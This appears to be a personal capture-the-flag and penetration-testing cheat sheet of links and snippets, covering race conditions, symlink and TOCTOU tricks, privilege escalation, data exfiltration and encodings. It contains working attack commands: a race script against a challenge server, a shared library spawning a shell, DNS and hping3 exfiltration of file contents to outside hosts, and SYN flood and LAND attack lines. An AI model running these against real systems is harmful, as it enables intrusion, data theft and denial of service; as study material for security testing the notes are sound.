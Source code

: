 # +

- https://fortyseven.github.io/ctfpanel/
- https://highon.coffee/blog/penetration-testing-tools-cheat-sheet/
- https://snovvcrash.rocks/cheatsheets/
- https://hausec.com/pentesting-cheatsheet/
- http://www.vulnerabilityassessment.co.uk/Penetration%20Test.html
- http://www.pentest-standard.org/index.php/PTES_Technical_Guidelines
- https://github.com/Orange-Cyberdefense/arsenal
- https://github.com/enaqx/awesome-pentest
- https://github.com/kyawthiha7/pentest-methodology
- https://prune2000.github.io/tools/pentest/

# malware classification

- https://whatis.techtarget.com/glossary/Security
- https://docs.microsoft.com/en-us/windows/security/threat-protection/intelligence/malware-naming
- https://encyclopedia.kaspersky.com/knowledge/rules-for-classifying/

# racing, race-condition

```bash
username=
password=
cookie1="PHPSESSID=3k21rt4acut215r1adlrq5m0p0"
cookie2="PHPSESSID=ck8pgb52nkkb8sdg2c95ms7s16"
url="http://202.120.7.197/app.php"

curl "$url?action=login" -b $cookie1 -d "username=$username&pwd=$password" &
curl "$url?action=login" -b $cookie2 -d "username=$username&pwd=$password"

curl "$url?action=buy&id=1" -b $cookie1

curl "$url?action=sale&id=1" -b $cookie1 &
curl "$url?action=sale&id=1" -b $cookie2
```
    - [Temmo's Tiny Shop - 0CTF 2017](https://www.40huo.cn/blog/0ctf-2017-writeup.html)

- https://github.com/saw-your-packet/ctfs/blob/master/DarkCTF/Write-ups.md#-chain-race
    - ~/share/ctf/darkctf2020/chain-race/

### TOCTOU

```bash
while true; do
    dd if=/dev/urandom count=$((1024 * 20)) bs=1024 > bigfile
    chmod 777 bigfile
    /exploitable bigfile &
    ln -sf /root/flag.txt bigfile
    sleep 0.1
    rm -f bigfile
done
```
    - https://github.com/kahla-sec/CTF-Writeups/blob/master/DarkCTF2020/McQueen.md

### symlink

- [Book \- HackThebox | Samir Ettali](https://samirettali.com/writeups/hackthebox/book/)
    - https://tech.feedyourhead.at/content/details-of-a-logrotate-race-condition
        ```bash
        # logrotate: stat /tmp/logs/file.log
        # attacker:
        mv /tmp/logs /tmp/logs2
        ln -s /etc/bash_completion.d /tmp/logs
        # logrotate: create+chown /tmp/logs/file.log
        # attacker:
        echo 'payload' > /tmp/logs/file.log
        # On root login, payload executed
        ```

# priviledge escalation

- https://gtfobins.github.io
- busybox - act as arbitrary file
    ```bash
    # if owner of file, can use chmod to fix permissions
    upx -o /tmp/chmod /bin/busybox
    # || tar
    # || /lib/ld-musl-x86_64.so.1 /bin/busybox cat
    # || setpriv /bin/busybox cat
    ```

- root owned + bad permissions (e.g. 777)
    - if shared library, compile our own, given called function "foo":
        ```c
        #include <stdlib.h>
        void foo() {
            system("/bin/sh");
        }
        ```
        ```bash
        gcc vuln.c -shared -o vuln.so
        ```

### enumeration

- ~/opt/privilege-escalation-awesome-scripts-suite/
- ~/opt/LinEnum/

```bash
sudo -l

# specific uid
find / -uid 1001 -type f 2>/dev/null

# suid
find / -perm -u=s -type f 2>/dev/null
```

# remote code exection (rce)

- [Hacking with Environment Variables](https://www.elttam.com/blog/env/)

# process pseudo-filesystem

- /proc/self/cmdline
- /proc/self/cwd
- /proc/self/environ
- /proc/self/maps
   - [!] zero size, but sequentially readable (e.g. `cat`, http request with header `Range: bytes 0-4096`)

# data exfiltration

- DNS
    - https://www.aldeid.com/wiki/File-transfer-via-DNS
        ```bash
        # 1. server
        sudo tcpdump -i eth1 -s0 -w loremipsum.pcap 'port 53 and host 192.168.1.29'
        # 2. client
        for b in `cat loremipsum.hex`; do dig @192.168.1.23 $b.fakednsrequest.com; done
        # 3. server
        tcpdump -n -r loremipsum.pcap 'host 192.168.1.29 and host 192.168.1.23' \
            | grep fakednsrequest \
            | cut -d ' ' -f 8 \
            | cut -d '.' -f 1 \
            | uniq \
            | xxd -r -p > loremipsum.txt
        ```
    - https://github.com/leonjza/dnsfilexfer
    - https://github.com/vp777/DNS-data-exfiltration
- TCP
    ```bash
    # ICMP (using file contents)
    hping3 -E foo.txt -1 -u -i 10 -d 1.2.3.4 95
    # TCP ACK (using file contents)
    hping3 -E foo.txt -A 1.2.3.4
    # SYN flood
    hping3 -V -c 1000 -d 100 -p 8080 -S -- flood 1.2.3.4
    # LAND attack
    hping3 -V -c 1000 -d 100 -p 8080 -s 18080 -S -k -a 1.2.3.4 1.2.3.4
    ```
- URI scheme
    - file, ftp, zlib, data, glob, phar, ssh2, rar, ogg, ftps, compress.zlib, compress.bzip2, zip
- bypass URL access rules with redirections (responses with code 3xx)
    - repeat parameter containing url to visit: 2nd url redirects to 3rd url
    ```php
    <?php
    header('HTTP/1.1 301 Redirect');
    header('Location: php://filter/string.toupper/resource=index.php');
    ?>
    ```

# encodings

Binary-to-text

- https://en.wikipedia.org/wiki/Category:Binary-to-text_encoding_formats

Morse

> The Morse code consists of several "dot", "dash" and "interval". The ratio of "dot" and "dash" is 1:3, The ratio of "intra-code interval", "inter-code interval" and "code group interval" is 1:3:5
    - ~/Downloads/Morse Recognition Algorithm Based on K-means.pdf
- "dot" = ".", "dash" = "-", "intra-code interval" = " ", "inter-code interval" = " ", "code group interval" = "/"
- https://morsecode.world/international/timing.html

# signal decoding

- sound of keystrokes to keys
    - https://www.xil.se/post/sharifctf-2016-misc-sound-rspkt/
- digital radio transmission decoder
    - https://github.com/EliasOenal/multimon-ng


